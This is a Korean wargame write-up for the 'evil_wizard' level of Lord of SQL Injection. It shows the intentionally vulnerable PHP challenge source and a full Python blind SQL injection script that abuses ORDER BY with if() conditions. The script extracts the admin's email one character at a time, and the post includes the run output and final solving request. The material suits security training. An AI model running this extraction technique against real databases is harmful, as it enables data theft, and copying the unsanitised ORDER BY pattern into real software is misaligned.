 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - evil_wizard 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


`evil_wizard` 문제인데, 이 전에 `hell_fire` 문제랑 똑같이 생겼다.  

주석을 보면 `same with hell_fire? really?`라고 적혀있는데, 뭐가 다른건지 모르겠다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

코드를 보면 이 전 문제인 `hell_fire`와 똑같다.  

그런데 주석에 `same with hell_fire? really?`가 있는 것을 보니 뭔가 다른 부분이 있는 것 같았다.  

그래서 `?order=id`를 입력 해 무슨 값이 들어있나 확인 해 보았다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |50|
|rubiya|   |rubiya805@gmail.com|   |100|

지난 문제에서는 `admin`의 `score`가 `200`이었어서, `order by` 뒤에 `id`를 넣을때와 `score`를 넣을 때가 결과가 달랐다.  

그런데 이번에는 무슨 값을 넣어도 같은 결과가 나온다.  

그래서 이 전 문제에서 사용했던 방법을 그대로 테스트 해 보았는데 너무 잘된다. ㅋㅋㅋ  

뭔가... 이 전 문제는 내가 처음에 생각했던 방법대로 풀 수 있었던 문제인 것 같은데, 뭔가 문제가 망가진 것 같기도 하다.  

아니면 내가 의도와 다르게 풀었거나...  

어쨌든 그래서 그냥 이 전 문제 코드 그대로 가져다 풀었다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

패스워드 길이는 이 전 문제랑 살짝 달랐다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  30
[+] Find password
[+] Found 1 : a
[+] Found 2 : aa
[+] Found 3 : aas
[+] Found 4 : aasu
[+] Found 5 : aasup
[+] Found 6 : aasup3
[+] Found 7 : aasup3r
[+] Found 8 : aasup3r_
[+] Found 9 : aasup3r_s
[+] Found 10 : aasup3r_se
[+] Found 11 : aasup3r_sec
[+] Found 12 : aasup3r_secu
[+] Found 13 : aasup3r_secur
[+] Found 14 : aasup3r_secure
[+] Found 15 : aasup3r_secure_
[+] Found 16 : aasup3r_secure_e
[+] Found 17 : aasup3r_secure_em
[+] Found 18 : aasup3r_secure_ema
[+] Found 19 : aasup3r_secure_emai
[+] Found 20 : aasup3r_secure_email
[+] Found 21 : aasup3r_secure_email@
[+] Found 22 : aasup3r_secure_email@e
[+] Found 23 : aasup3r_secure_email@em
[+] Found 24 : aasup3r_secure_email@ema
[+] Found 25 : aasup3r_secure_email@emai
[+] Found 26 : aasup3r_secure_email@emai1
[+] Found 27 : aasup3r_secure_email@emai1.
[+] Found 28 : aasup3r_secure_email@emai1.c
[+] Found 29 : aasup3r_secure_email@emai1.co
[+] Found 30 : aasup3r_secure_email@emai1.com
[+] Found password :  aasup3r_secure_email@emai1.com
[+] End
```

결과로 나온 이메일 값을 아래와 같이 넘겨주었다.  

```
?email=aasup3r_secure_email@emai1.com
```

힣 코드 한개로 2문제 풀었다! 개꿀!  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

EVIL_WIZARD Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

`EVIL_WIZARD Clear!!`